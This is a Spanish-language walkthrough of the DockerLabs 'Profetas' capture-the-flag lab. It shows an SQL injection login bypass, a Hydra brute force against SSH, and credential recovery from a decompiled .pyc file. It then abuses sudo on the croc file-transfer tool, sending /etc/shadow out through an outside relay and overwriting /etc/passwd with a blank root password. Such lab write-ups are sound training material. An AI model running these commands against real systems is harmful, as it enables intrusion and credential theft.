






# Profetas DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria Profetas

<figure><figcaption></figcaption></figure>

### Descripción

**Profetas** es un laboratorio orientado a explotación web y escalada de privilegios en sistemas Linux. El reto combina vulnerabilidades clásicas como **inyección SQL**, exposición de credenciales mediante lógica débil de autenticación, análisis de binarios compilados en Python y abuso de permisos inseguros en `sudo`.

**Objetivo del reto**

Comprometer el sistema obteniendo acceso inicial, escalar privilegios entre usuarios del sistema y finalmente obtener privilegios de `root` para recuperar la flag final.

**Tipo de máquina**

* Linux
* Web
* Privilege Escalation

**Habilidades y técnicas evaluadas**

* Enumeración de servicios
* SQL Injection en formularios de autenticación
* Decodificación Base64
* Fuerza bruta sobre servicios SSH
* Ingeniería inversa de binarios Python compilados
* Enumeración de permisos sudo
* Abuso de herramientas legítimas para exfiltración y manipulación de archivos del sistema

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip profetas.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh profetas.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

Comenzamos realizando un reconocimiento de servicios expuestos mediante **Nmap**.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Posteriormente, enumeramos versiones y scripts por defecto:

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 06:27 -0500
Nmap scan report for 172.17.0.2
Host is up (0.000039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 79:80:90:64:27:37:bc:e2:49:0c:27:c2:4a:09:f6:d0 (ECDSA)
|_  256 6b:05:29:59:af:75:4f:78:7b:f5:2b:2a:13:07:6d:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: ProfetaNet Access
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.24 seconds
```

Observamos que la máquina expone **dos puertos abiertos**. El puerto `22` corresponde al servicio SSH y el puerto `80` aloja un servidor web Apache. Inicialmente nos centraremos en el puerto `80`, ya que suele ser un punto de entrada habitual para comprometer sistemas.

Al acceder al servicio web, encontramos la siguiente interfaz:

<figure><figcaption></figcaption></figure>

Podemos observar un panel de autenticación sencillo. Como primera prueba, intentamos un ataque básico de **inyección SQL** utilizando un payload clásico:

```
' OR 1=1-- -
```

Probando dicho payload tanto en el campo usuario como contraseña, comprobamos que la autenticación es vulnerable.

## Escalate user jeremias

### SQLi (login)

<figure><figcaption></figcaption></figure>

```
User: ' OR 1=1-- -
Password: ' OR 1=1-- -
```

Respuesta:

<figure><figcaption></figcaption></figure>

Tras enviar el payload, conseguimos autenticarnos correctamente en la aplicación.

Una vez dentro, inspeccionamos el código fuente de la página y detectamos una cadena codificada en **Base64** oculta mediante estilos CSS.

```html
<div class="footer">
    <p><i>“Y habló Jehová a los profetas…”</i></p>

    <p style="color: black;">cmVjdWVyZGEuLi4gdHUgY29udHJhc2XxYSBlcyB0dSB1c3Vhcmlv </p>
    
</div>
```

Decodificamos el contenido:

```shell
echo "cmVjdWVyZGEuLi4gdHUgY29udHJhc2XxYSBlcyB0dSB1c3Vhcmlv" | base64 -d
```

Respuesta:

```
recuerda... tu contraseña es tu usuario
```

Esta pista sugiere que algunos usuarios del sistema podrían estar utilizando su propio nombre de usuario como contraseña. Con base en esta hipótesis, procedemos a recopilar los posibles nombres de usuario presentes en la aplicación web.

<figure><figcaption></figcaption></figure>

Podemos automatizar la extracción de dichos nombres mediante el siguiente comando:

```shell
curl -s "http://<IP>/index.php" -H "Cookie: PHPSESSID=<COOKIE_USER>" | grep -oP 'srv-\K[^<]+' | sed 's/daemon_//'
```

> users.txt

```
isaías
isaias
jeremías
jeremias
ezequiel
daniel
oseas
joel
amós
amos
abdías
abdias
jonás
jonas
miqueas
nahúm
nahum
habacuc
sofonías
sofonias
hageo
zacarías
zacarias
malaquías
malaquias
```

> passwords.txt

Utilizamos la misma lista para probar combinaciones usuario/contraseña, siguiendo la pista obtenida previamente:

```
isaías
isaias
jeremías
jeremias
ezequiel
daniel
oseas
joel
amós
amos
abdías
abdias
jonás
jonas
miqueas
nahúm
nahum
habacuc
sofonías
sofonias
hageo
zacarías
zacarias
malaquías
malaquias
```

En mi caso, realicé una normalización eliminando caracteres acentuados para evitar posibles problemas de autenticación derivados del encoding.

Posteriormente, ejecutamos un ataque de fuerza bruta contra el servicio SSH:

```shell
hydra -L users.txt -P passwords.txt ssh://<IP> -t 64 -I
```

Respuesta:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-02-16 06:39:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 625 login tries (l:25/p:25), ~10 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 505.00 tries/min, 505 tries in 00:01h, 165 to do in 00:01h, 19 active
[22][ssh] host: 172.17.0.2   login: jeremias   password: jeremias
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-02-16 06:40:53
```

Tras varios intentos, observamos que hemos conseguido credenciales válidas del usuario `jeremias`, por lo que procederemos a conectarnos mediante `SSH`.

### SSH (jeremias)

```shell
ssh jeremias@<IP>
```

Introducimos la contraseña `jeremias`:

```
Welcome to Ubuntu 24.04.3 LTS (GNU/Linux 6.17.10+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Jan 17 08:58:35 2026 from 172.17.0.1
jeremias@2b85736646df:~$ whoami
jeremias
```

Confirmamos que hemos accedido correctamente al sistema con este usuario. A continuación, procedemos a leer la `flag` correspondiente.

> user.txt

```
DL{flag_user-8F3A7C9B12}
```

## Escalate user ezequiel

<figure><figcaption></figcaption></figure>

Durante la enumeración del directorio personal del usuario `jeremias`, observamos un archivo interesante:

```
-rwxr-xr-x 1 jeremias root     7682 Jan 16 20:38 ezequiel.pyc
```

Este archivo corresponde a un script compilado en formato `.pyc`. Aunque pertenece al grupo `root`, disponemos de permisos de lectura y ejecución. Sin embargo, al intentar visualizar su contenido, comprobamos que se encuentra en formato binario, lo que dificulta su análisis directo.

Por ello, decidimos transferir el archivo a nuestra máquina atacante con el objetivo de decompilarlo y analizar su funcionamiento interno.

Una vez transferido mediante un servidor Python, procedemos a utilizar la herramienta `pycdc` para su desensamblado:

```shell
sudo apt update
sudo apt install git cmake build-essential
git clone https://github.com/zrax/pycdc.git
cd pycdc
cmake .
make
cd ..
./pycdc/pycdas ezequiel.pyc > ezequiel_asm.txt
```

Tras generar el archivo `ezequiel_asm.txt`, comenzamos a analizar su contenido en busca de posibles credenciales embebidas en el código.

Filtramos las constantes cargadas en el script:

```shell
grep -E "LOAD_CONST.*['\"].*['\"]" ezequiel_asm.txt | grep -v "Password"
```

Respuesta:

```
                6       LOAD_CONST                      0: 'X'
                136     LOAD_CONST                      1: 'rot_13'
                        114     LOAD_CONST                      2: 'rot_13'
                6       LOAD_CONST                      0: 'V'
                64      LOAD_CONST                      1: 'posix'
                74      LOAD_CONST                      2: 'clear'
                78      LOAD_CONST                      3: 'cls'
                100     LOAD_CONST                      4: '\n    ╔═══════════════════════════════════════╗\n    ║    SISTEMA DE AUTENTICACIÓN SEGURA    ║\n    ║         v3.14.159 - INTERNO           ║\n    ╚═══════════════════════════════════════╝'
                124     LOAD_CONST                      5: '\n══════════════════════════════════════════════════'
                168     LOAD_CONST                      6: '🔐  Contraseña: '
                278     LOAD_CONST                      8: '\x1b[91mError: verificación falló\x1b[0m'
        82      LOAD_CONST                      3: 'X'
        106     LOAD_CONST                      6: '234r3fsd2'
        110     LOAD_CONST                      7: '-34fsdrr32'
        192     LOAD_CONST                      12: 'V'
        212     LOAD_CONST                      14: '__main__'
        294     LOAD_CONST                      17: 'Python 3.6+ required'
```

Resultado relevante:

```
234r3fsd2
-34fsdrr32
```

Observamos dos valores que presentan una alta probabilidad de formar parte de un mecanismo de autenticación interno. Debido a ello, decidimos probar distintas combinaciones de estas cadenas, incluyendo concatenaciones y variaciones de orden.

> passwords.txt

```
234r3fsd2
-34fsdrr32
234r3fsd2-34fsdrr32
-34fsdrr32234r3fsd2
34fsdrr32-234r3fsd2
```

A continuación, realizamos un ataque de fuerza bruta contra el usuario `ezequiel`.

### SSH (ezequiel)

```shell
hydra -l ezequiel -P passwords.txt ssh://<IP> -t 64 -I
```

Respuesta:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-02-16 07:21:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:1/p:5), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: ezequiel   password: 234r3fsd2-34fsdrr32
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-02-16 07:21:22
```

Observamos que el ataque ha tenido éxito y hemos obtenido credenciales válidas para el usuario `ezequiel`. Por lo tanto, procedemos a conectarnos mediante SSH.

```shell
ssh ezequiel@<IP>
```

Introducimos como contraseña `234r3fsd2-34fsdrr32`...

```
Welcome to Ubuntu 24.04.3 LTS (GNU/Linux 6.17.10+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
ezequiel@2b85736646df:~$ whoami
ezequiel
```

Confirmamos que la autenticación se ha realizado correctamente y disponemos de una sesión activa con dicho usuario.

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ezequiel on 2b85736646df:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ezequiel may run the following commands on 2b85736646df:
    (ALL) NOPASSWD: /usr/local/bin/croc
```

Observamos que el usuario `ezequiel` puede ejecutar el binario `/usr/local/bin/croc` con privilegios de `root` sin necesidad de introducir contraseña. Esto representa un vector claro para la escalada de privilegios.

`croc` es una herramienta diseñada para la transferencia segura de archivos entre sistemas, lo que potencialmente permite manipular o exfiltrar archivos sensibles del sistema.

### Extracción del archivo shadow

Aprovechando los privilegios sudo, procedemos a transferir el archivo `/etc/shadow` desde la máquina víctima hacia nuestra máquina atacante.

Desde la máquina víctima ejecutamos:

```shell
sudo /usr/local/bin/croc --relay "46.224.4.135:9009" --pass "pass123" send /etc/shadow
```

Respuesta:

```
Sending 'shadow' (958 B)         
Code is: 4148-spend-mercy-patrol

On the other computer run:
(For Windows)
    croc 4148-spend-mercy-patrol
(For Linux/macOS)
    CROC_SECRET="4148-spend-mercy-patrol" croc
```

En este caso utilizamos un servidor relay público proporcionado por la herramienta.

La aplicación nos proporcionará un código de transferencia temporal.

#### Preparación de la máquina atacante

Antes de proceder con la recepción del archivo, instalamos la herramienta `croc`, la cual permite la transferencia de archivos entre sistemas de forma sencilla mediante un relay.

```shell
# Descargar la última versión para Linux (64 bits)
wget https://github.com/schollz/croc/releases/download/v10.3.1/croc_v10.3.1_Linux-64bit.tar.gz

# Descomprimir
tar -xzf croc_v10.3.1_Linux-64bit.tar.gz

# Mover a /usr/local/bin (necesitas sudo)
sudo mv croc /usr/local/bin/

# Dar permisos de ejecución
sudo chmod +x /usr/local/bin/croc

# Verificar instalación
croc -v
```

Una vez instalada la herramienta, iniciamos el modo receptor en la máquina atacante:

```shell
croc --relay "46.224.4.135:9009" --pass "pass123"
```

El programa nos solicitará el código de recepción:

```
Enter receive code:
```

En este punto introducimos el código proporcionado por la máquina víctima. En nuestro caso:

```
Enter receive code: 4148-spend-mercy-patrol
Accept 'shadow' (958 B)? (Y/n) Y

Receiving (<-172.17.0.2:9009)
 shadow 100% |████████████████████| (958/958 B, 378 kB/s)
```

Simultáneamente, la máquina víctima confirmará que el envío se ha realizado correctamente:

```
Sending (->172.17.0.1:53104)
shadow 100% |████████████████████| (958/958 B, 1.5 MB/s)
```

Si revisamos el archivo transferido desde la máquina atacante, verificamos que la exfiltración ha sido exitosa:

```shell
cat shadow
```

Respuesta:

```
root:$y$j9T$lXZYj13Or9WSrFcBbdsn21$cUEcfXhBqHnZHAY/..c8Y0Cyg0XrZ/KvnJk1Xcp1781:20470:0:99999:7:::
daemon:*:20466:0:99999:7:::
bin:*:20466:0:99999:7:::
sys:*:20466:0:99999:7:::
sync:*:20466:0:99999:7:::
games:*:20466:0:99999:7:::
man:*:20466:0:99999:7:::
lp:*:20466:0:99999:7:::
mail:*:20466:0:99999:7:::
news:*:20466:0:99999:7:::
uucp:*:20466:0:99999:7:::
proxy:*:20466:0:99999:7:::
www-data:*:20466:0:99999:7:::
backup:*:20466:0:99999:7:::
list:*:20466:0:99999:7:::
irc:*:20466:0:99999:7:::
_apt:*:20466:0:99999:7:::
nobody:*:20466:0:99999:7:::
ubuntu:!:20466:0:99999:7:::
_galera:!:20469::::::
mysql:!:20469::::::
jeremias:$y$j9T$lLza0Has8/Eb7debmQPF.1$gibnpo5pfuWSExmxbkcCVfPLPWXnXLT4vNX0x6Xfg9C:20469:0:99999:7:::
ezequiel:$y$j9T$hq7kQDd8xzReg3cAQm4rC1$PwTAwBH2umPkbRj71qOZy4nxxes.cKCFRz4.t9OObb6:20469:0:99999:7:::
systemd-network:!*:20469::::::
systemd-timesync:!*:20469::::::
messagebus:!:20469::::::
systemd-resolve:!*:20469::::::
sshd:!:20469::::::
```

#### Escalada de privilegios mediante modificación de `/etc/passwd`

Analizando las capacidades del binario `croc`, observamos que permite especificar rutas de destino al recibir archivos. Aprovechando esta funcionalidad, planteamos una técnica de escalada de privilegios basada en la modificación del archivo `/etc/passwd`.

La estrategia consiste en:

1. Leer el archivo `/etc/passwd` desde la máquina víctima.
2. Crear una copia local en la máquina atacante.
3. Modificar la entrada del usuario `root`, eliminando el campo de contraseña.
4. Transferir el archivo modificado nuevamente hacia la víctima, sobrescribiendo el original.

#### Modificación del archivo `passwd`

Primero copiamos el archivo original y realizamos la modificación correspondiente eliminando la `x` del usuario `root`, lo que dejará la cuenta sin contraseña:

> passwd

```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false
jeremias:x:1001:1001:,,,:/home/jeremias:/bin/bash
ezequiel:x:1002:1002:,,,:/home/ezequiel:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:103::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:103:65534::/run/sshd:/usr/sbin/nologin
```

#### Envío del archivo modificado hacia la máquina víctima

Desde la máquina atacante, iniciamos el envío del archivo modificado:

```shell
croc --relay "46.224.4.135:9009" --pass "pass123" send passwd
```

Respuesta:

```
Sending 'passwd' (1.4 kB)        
Code is: 3622-program-george-iris

On the other computer run:
(For Windows)
    croc 3622-program-george-iris
(For Linux/macOS)
    CROC_SECRET="3622-program-george-iris" croc 
Code copied to clipboard!
```

#### Recepción y sobrescritura del archivo en la víctima

Ahora, desde la máquina víctima, ejecutamos el receptor indicando como destino la ruta `/etc/`:

```shell
sudo /usr/local/bin/croc --relay "46.224.4.135:9009" --pass "pass123" --out /etc/
```

Respuesta:

```
Enter receive code: 3622-program-george-iris
Accept 'passwd' (1.4 kB)? (Y/n) Y

Receiving (<-127.0.0.1:49384)

Overwrite 'passwd'? (y/N) (use --overwrite to omit) y
 passwd 100% |████████████████████| (1.4/1.4 kB, 1.2 MB/s)
```

Confirmamos la sobrescritura del archivo, sustituyendo el `/etc/passwd` original por nuestra versión modificada.

#### Obtención de privilegios root

Tras la modificación del archivo de autenticación, el usuario `root` queda sin contraseña. Por lo tanto, podemos escalar privilegios ejecutando:

```shell
su root
```

Respuesta:

```
root@2b85736646df:/tmp# whoami
root
```

Con esto ya seremos `root`, por lo que leeremos la `flag` de `root` y daremos por terminada esta maquina.

> root.txt

```
DL{flag_root-C6A4F19D03}
```
